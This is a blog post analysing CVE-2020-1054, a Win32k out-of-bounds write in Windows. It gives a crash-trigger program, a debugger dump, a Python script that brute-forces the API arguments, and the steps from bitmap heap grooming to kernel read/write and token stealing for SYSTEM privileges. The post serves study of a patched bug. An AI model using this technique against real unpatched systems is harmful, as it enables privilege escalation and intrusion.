



+++
title = "[CVE-2020-1054] Win32k LPE Vulnerability Analysis"
date = "2025-05-06"
description = "Detailed analysis of OOB Write vulnerability in Win32k.sys and exploitation technique using SURFOBJ"

[taxonomies]
tags = ["cve", "windows kernel", "win32k", "out of bound", "bitmap", "surfobj", "manager and worker", "eprocess"]

[extra]
pinned = true
+++

## 0x00. Introduction
CVE-2020-1054 is an Elevation of Privilege (EoP) vulnerability in `Win32k.sys`, the Windows kernel graphics component. It was reported by Netanel Ben-Simon and Yoav Alon of Check Point Research, and bee13oy of Qihoo 360 Vulcan Team.

**This post is based on [0xeb-bp's analysis report](https://0xeb-bp.com/blog/2020/06/15/cve-2020-1054-analysis.html) and was written to enhance my own understanding of the vulnerability.**


## 0x01. Root Cause Analysis
### Crash Analysis
This vulnerability was identified by a `PAGE_FAULT_IN_NONPAGED_AREA` crash within the `win32k!vStrWrite01` function. The code that triggered the crash is as follows:

``` c
int main(int argc, char *argv[])
{
    LoadLibrary("user32.dll");
    HDC r0 = CreateCompatibleDC(0x0);
    // CPR's original crash code called CreateCompatibleBitmap as follows
    // HBITMAP r1 = CreateCompatibleBitmap(r0, 0x9f42, 0xa);
    // however all following calculations/reversing in this blog will 
    // generally use the below call, unless stated otherwise
    // this only matters if you happen to be following along with WinDbg
    HBITMAP r1 = CreateCompatibleBitmap(r0, 0x51500, 0x100);
    SelectObject(r0, r1);
    DrawIconEx(r0, 0x0, 0x0, 0x30000010003, 0x0, 0xfffffffffebffffc, 
        0x0, 0x0, 0x6);

    return 0;
}
```

The bugcheck result upon crashing is:

``` windbg
PAGE_FAULT_IN_NONPAGED_AREA (50)
Invalid system memory was referenced.  This cannot be protected by try-except.
Typically the address is just plain bad or it is pointing at freed memory.
Arguments:
Arg1: fffff904c7000240, memory referenced.
Arg2: 0000000000000000, value 0 = read operation, 1 = write operation.
Arg3: fffff960000a5482, If non-zero, the instruction address which referenced 
    the bad memory address.
Arg4: 0000000000000005, (reserved)

Some register values may be zeroed or incorrect.
rax=fffff900c7000000 rbx=0000000000000000 rcx=fffff904c7000240
rdx=fffff90169dd8f80 rsi=0000000000000000 rdi=0000000000000000
rip=fffff960000a5482 rsp=fffff880028f3be0 rbp=0000000000000000
 r8=00000000000008f0  r9=fffff96000000000 r10=fffff880028f3c40
r11=000000000000000b r12=0000000000000000 r13=0000000000000000
r14=0000000000000000 r15=0000000000000000
iopl=0         nv up ei ng nz na po cy
win32k!vStrWrite01+0x36a:
fffff960`000d5482 418b36   mov esi,dword ptr [r14] ds:00000000`00000000=????????
```

The crash occurs because the memory address pointed to by the `r14` register (``0xfffff904`c7000240``) is invalid. `r14` is used as the destination address for a write operation. Let's examine how this address is calculated and if it is controllable.

### OOB Control
`r14` is calculated using the instruction `lea r14, [rcx + rax*4]`. Tracking `rcx` and `rax` back, we can represent it in pseudo-code:

```
var_64h = 0x7fffffff; 
var_6ch = 0x80000000;
while ( r11d )
{
    --r11d;
    if ( ebp >= var_6ch && ebp < var_6ch )
    {
        // oob read/write in here
    }
    ++ebp;
    ecx += eax;
}
```

Ultimately, the target address (`oob_target`) takes the form of a linear equation:

- `oob_target = initial_value + loop_iterations * eax`

Through analysis, such as changing argument values during function calls, we can see that each variable is controlled as follows. However, it was noted that no matter how the values were changed, the lower 32 bits of `oob_target` were fixed at `0xc7000240`, and only the upper 32 bits were controllable.

1. **loop_iterations**: Determined by the 5th argument (`arg5`) of `DrawIconEx`.
   - `loop_iterations = ((1 - arg5) & 0xffffffff) // 0x30`
2. **eax (increment)**: Determined by the 1st argument (`arg1`) of `CreateCompatibleBitmap`.
   - `lDelta = arg1 // 8`
   - Acts as the offset to move to the next line in memory.

Now that **where to write** is determined, we need to check **what to write**—what values can be written and how much control we have over them. Examining `vStrWrite01` closely reveals that write instructions are executed in the following two places:

```
// write 1
win32k!vStrWrite01+0x417
mov     dword ptr [r14],esi
// write 2
win32k!vStrWrite01+0x461
mov     dword ptr [r14],esi
```

The `esi` value undergoes an **OR** or **AND** operation with a certain value depending on conditions. Since **OR** operations are typically used in exploits to increase values or set specific bits, understanding the condition is crucial. The 8th argument of `DrawIconEx`, `diFlags`, stood out. Checking the official documentation revealed:

- If `DrawIconEx`'s 8th argument (`diFlags`) is `DI_IMAGE (0x6)`, an **AND** operation is performed.
- If `DrawIconEx`'s 8th argument (`diFlags`) is `DI_MASK (0x1)`, an **OR** operation is performed.

As a result of the analysis, this OOB write vulnerability has unique constraints:

1. **Fixed Lower 32 bits**: The upper 32 bits of the `oob_target` address can be controlled via `arg5`, but the **lower 32 bits are always fixed to a specific value like `0xc7000240`**. This means the attacker cannot write to an arbitrary address but only to specific locations where the lower address matches.
2. **Restricted Write (Bitwise Operation)**: Instead of overwriting with a desired value, an **AND** or **OR** operation is performed on the existing value.


## 0x02. Exploit
Due to the aforementioned constraints (fixed lower address, bitwise OR operation), conventional exploitation methods are difficult. However, remembering that even a 1-byte NULL overflow (House of Einherjar) allows for exploitation gives us hope. To overcome this, we utilize the `SURFOBJ` structure, a Windows kernel bitmap object.

``` c
typedef struct {
    ULONG64 dhsurf; // 0x00
    ULONG64 hsurf; // 0x08
    ULONG64 dhpdev; // 0x10
    ULONG64 hdev; // 0x18
    SIZEL sizlBitmap; // 0x20
    ULONG64 cjBits; // 0x28
    ULONG64 pvBits; // 0x30
    ULONG64 pvScan0; // 0x38
    ULONG32 lDelta; // 0x40
    ULONG32 iUniq; // 0x44
    ULONG32 iBitmapFormat; // 0x48
    USHORT iType; // 0x4C
    USHORT fjBitmap; // 0x4E
} SURFOBJ64; // sizeof = 0x50
```

The fields critical for exploitation are:

- `pvScan0`: Pointer to the actual bitmap data.
- `sizlBitmap`: Defines the width and height of the bitmap, consisting of two dwords.

### Step 1. Heap Grooming
First, allocate a base `SURFOBJ` to be placed at ``0xfffff900`c7000000``. Then, repeatedly call `CreateCompatibleBitmap` to allocate multiple `SURFOBJ` structures and bitmap data in the kernel heap (Paged Pool).

The goal is to groom the heap so that one of them (Target A) is allocated exactly at ``0xfffff901`c7000000``.



### Step 2. Target Selection & OOB Write
We are targeting the `sizlBitmap` field of Target B. This field defines the width/height of the bitmap. If this value becomes large, the kernel is tricked into thinking Target B is very large.

Matching Target B's `sizlBitmap` field exactly with `oob_target` is tricky. If we don't manipulate `sizlBitmap` precisely in a single write, a BSOD is likely to occur. Therefore, we need to carefully combine the arguments of `DrawIconEx` and `CreateCompatibleBitmap`. A brute force script was used to find this combination:

``` python
print("bruting function arguments...") 

# start with size at 0x50000 
for size in range(0x50000, 0xffffff):
    lDelta = size // 0x8 
    # lDelta is always byte alligned so ignore if not
    if lDelta & 0x0f == 0:
        for arg1 in range(0x0, 0xfff, 0x20):
            offset = (arg1 // 0x20) * 0x4 + 0x240
            for arg2 in range(0x0,0x10):
                write_target = offset + arg2 * lDelta
                if write_target == 0x70038:
                    print("found: size {:x}, offset (arg1) {:x}, lDelta {:x}, \
                    loop_count (arg2) {:x}".format(size, arg1, lDelta, arg2))
```



### Step 3. Relative Read/Write
Now, Target B bitmap can access memory beyond its allocated region.
Immediately following Target B, another bitmap structure, Target C, should be located.

Calling `SetBitmapBits(Target B, ...)` allows us to overwrite the `pvScan0` field of Target C by overflowing from Target B's data area.



### Step 4. Arbitrary Read/Write
Now, full AAR/AAW is possible using the Target C bitmap.

1. **Set Where**: Use Target B (Manager) to change Target C's (Worker) `pvScan0` to the desired address.
2. **Do What**: Call `GetBitmapBits` or `SetBitmapBits` using Target C (Worker) to read or write values of the kernel memory.

This completes the **Arbitrary Read/Write Primitive**.

### Step 5. Token Stealing
With AAR/AAW secured, the rest follows standard techniques.

1. Find the current process (`EPROCESS`).
2. Find the System process (PID 4) (`EPROCESS`).
3. Read the `Token` value from the System process and overwrite the current process's `Token`.
4. The current process now has System privileges.


## 0x03. Conclusion
This vulnerability stems from a combination of complex address calculation logic within the `DrawIconEx` graphics function and a lack of argument validation. It demonstrates a creative exploit technique that transforms a restricted OOB write (fixed lower address, bitwise operation) into a powerful AAR/AAW by manipulating `SURFOBJ` structures.

On Windows 7, structure offsets may vary depending on installed security updates (KB), so exploits must detect this dynamically or be adjusted for the specific version.


## 0x04. Reference
- [CVE-2020-1054 Analysis](https://0xeb-bp.com/blog/2020/06/15/cve-2020-1054-analysis.html)
- [CVE-2020-1054 PoC (in Rust)](https://github.com/0xeb-bp/cve-2020-1054)
- [CVE-2020-1054 PoC (in C)](https://github.com/KaLendsi/CVE-2020-1054)
- [CreateCompatibleBitmap function](https://learn.microsoft.com/en-us/windows/win32/api/wingdi/nf-wingdi-createcompatiblebitmap)
- [DrawIconEx function](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-drawiconex)
- [Abusing GDI for ring0 exploit primitives](https://www.coresecurity.com/core-labs/articles/abusing-gdi-for-ring0-exploit-primitives)
